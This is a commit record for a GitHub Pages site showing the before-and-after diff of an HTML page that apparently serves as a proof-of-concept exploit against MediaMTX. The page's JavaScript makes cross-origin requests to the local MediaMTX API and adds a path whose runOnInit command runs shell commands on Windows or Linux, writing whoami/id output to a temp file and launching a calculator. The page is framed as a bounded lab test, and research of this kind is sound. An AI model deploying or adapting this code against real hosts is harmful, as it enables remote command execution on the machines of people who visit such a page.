

Before and after one commit to azza999/azza999.github.io, a Jekyll site: the page pages/mediamtx-cors-lna-test.html, which Jekyll copies as it is, in a window 1280 px wide. Shown: the top 596 px of the page, without its empty margins (148-1131 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update HTML for MediaMTX CORS/LNA RCE proof

```diff
--- a/pages/mediamtx-cors-lna-test.html
+++ b/pages/mediamtx-cors-lna-test.html
@@ -3,47 +3,109 @@
 <head>
   <meta charset="utf-8">
   <meta name="viewport" content="width=device-width, initial-scale=1">
-  <title>MediaMTX CORS/LNA bounded runOnInit proof</title>
+  <title>MediaMTX CORS/LNA bounded RCE proof</title>
   <style>
-    body { font-family: system-ui, sans-serif; max-width: 900px; margin: 40px auto; padding: 0 16px; }
-    input { width: 100%; box-sizing: border-box; padding: 8px; margin: 6px 0 12px; }
-    button { margin: 6px 8px 6px 0; padding: 8px 12px; }
-    pre { white-space: pre-wrap; background: #f4f4f4; padding: 12px; border-radius: 6px; }
-    code { word-break: break-all; }
+    body {
+      font-family: system-ui, sans-serif;
+      max-width: 920px;
+      margin: 40px auto;
+      padding: 0 16px;
+      line-height: 1.5;
+    }
+    label { display: block; margin-top: 12px; font-weight: 600; }
+    input, select {
+      width: 100%;
+      box-sizing: border-box;
+      padding: 8px;
+      margin-top: 6px;
+    }
+    button {
+      margin: 10px 8px 10px 0;
+      padding: 8px 12px;
+    }
+    pre {
+      white-space: pre-wrap;
+      word-break: break-word;
+      background: #f4f4f4;
+      padding: 12px;
+      border-radius: 6px;
+    }
+    .note {
+      border-left: 4px solid #777;
+      padding-left: 12px;
+      margin: 16px 0;
+    }
   </style>
 </head>
 <body>
-  <h1>MediaMTX CORS/LNA bounded runOnInit proof</h1>
-  <p>
-    Disposable local lab only. This test adds one temporary runtime path whose
-    <code>runOnInit</code> writes a marker/identity file into <code>%TEMP%</code>
-    and opens Calculator. It does not modify mediamtx.yml.
+  <h1>MediaMTX CORS/LNA bounded RCE proof</h1>
+
+  <p class="note">
+    Disposable local lab only. The test adds one temporary runtime path with
+    <code>runOnInit</code>. The command writes an identity marker and then
+    attempts to launch a calculator. It does not modify <code>mediamtx.yml</code>.
   </p>
 
-  <label>
-    API base
-    <input id="base" value="http://localhost:19997/v3">
-  </label>
+  <label for="base">API base</label>
+  <input id="base" value="http://localhost:19997/v3">
 
-  <p><strong>Command:</strong></p>
+  <label for="os">Target OS</label>
+  <select id="os">
+    <option value="windows">Windows</option>
+    <option value="linux">Linux</option>
+  </select>
+
+  <p><strong>Command preview:</strong></p>
   <pre id="cmd"></pre>
 
   <button id="run">1. Add temporary path and execute</button>
   <button id="cleanup">2. Delete temporary path</button>
 
+  <p><strong>Result:</strong></p>
   <pre id="out"></pre>
 
 <script>
 const out = document.getElementById("out");
 const baseInput = document.getElementById("base");
-const command =
-  'cmd /c "whoami > %TEMP%\\mediamtx-cors-rce-poc.txt & ' +
-  'echo MEDIAMTX_CORS_RCE_POC>>%TEMP%\\mediamtx-cors-rce-poc.txt & ' +
-  'start calc.exe & timeout /t 10 >nul"';
-
-document.getElementById("cmd").textContent = command;
+const osSelect = document.getElementById("os");
+const cmdPreview = document.getElementById("cmd");
 
 let pathName = null;
+
+function detectOS() {
+  const ua = navigator.userAgent.toLowerCase();
+  if (ua.includes("linux") && !ua.includes("android")) {
+    osSelect.value = "linux";
+  } else {
+    osSelect.value = "windows";
+  }
+}
+
+function commandFor(os) {
+  if (os === "linux") {
+    return "sh -c 'id > /tmp/mediamtx-cors-rce-linux.txt; " +
+      "echo MEDIAMTX_CORS_RCE_LINUX >> /tmp/mediamtx-cors-rce-linux.txt; " +
+      "if command -v gnome-calculator >/dev/null 2>&1; then exec gnome-calculator; " +
+      "elif command -v kcalc >/dev/null 2>&1; then exec kcalc; " +
+      "elif command -v xcalc >/dev/null 2>&1; then exec xcalc; " +
+      "else sleep 15; fi'";
+  }
+
+  return 'cmd /c "whoami > %TEMP%\\mediamtx-cors-rce-windows.txt & ' +
+    'echo MEDIAMTX_CORS_RCE_WINDOWS>>%TEMP%\\mediamtx-cors-rce-windows.txt & ' +
+    'calc.exe"';
+}
+
+function markerFor(os) {
+  if (os === "linux") {
+    return "/tmp/mediamtx-cors-rce-linux.txt";
+  }
+  return "%TEMP%\\mediamtx-cors-rce-windows.txt";
+}
+
+function updatePreview() {
+  cmdPreview.textContent = commandFor(osSelect.value);
+}
 
 function write(v) {
   out.textContent += (typeof v === "string" ? v : JSON.stringify(v, null, 2)) + "\n";
@@ -52,6 +114,7 @@
 async function req(path, options = {}) {
   const base = baseInput.value.replace(/\/+$/, "");
   const url = base + path;
+
   const opts = {
     mode: "cors",
     credentials: "omit",
@@ -79,13 +152,19 @@
 
 document.getElementById("run").onclick = async () => {
   out.textContent = "";
+
+  const os = osSelect.value;
+  const command = commandFor(os);
+  const marker = markerFor(os);
+
   write({
     pageOrigin: location.origin,
     isSecureContext: window.isSecureContext,
     userAgent: navigator.userAgent,
+    selectedTargetOS: os
   });
 
-  pathName = "cors-rce-poc-" + Date.now();
+  pathName = `cors-rce-poc-${os}-${Date.now()}`;
 
   const body = {
     runOnInit: command,
@@ -104,9 +183,18 @@
     }
 
     write(`PATH: ${pathName}`);
-    write("EXPECTED FILE: %TEMP%\\mediamtx-cors-rce-poc.txt");
-    write("EXPECTED VISIBLE EFFECT: Calculator opens.");
-    write("Check the MediaMTX console for a runOnInit command-start message.");
+    write(`EXPECTED MARKER: ${marker}`);
+
+    if (os === "windows") {
+      write("EXPECTED VISIBLE EFFECT: Windows Calculator should open if the MediaMTX session can display GUI applications.");
+      write('VERIFY: Get-Content "$env:TEMP\\mediamtx-cors-rce-windows.txt"');
+    } else {
+      write("EXPECTED VISIBLE EFFECT: gnome-calculator, kcalc, or xcalc is attempted if installed and a GUI session is available.");
+      write("VERIFY: cat /tmp/mediamtx-cors-rce-linux.txt");
+    }
+
+    write("Check the MediaMTX console for: runOnInit command started");
+    write("The marker file is the authoritative command-execution proof; GUI launch is only a visible secondary effect.");
   } catch (e) {
     write(`RESULT: failed: ${e.message}`);
   }
```
Also changed, not shown: other parts of pages/mediamtx-cors-lna-test.html (+23 -4 lines).
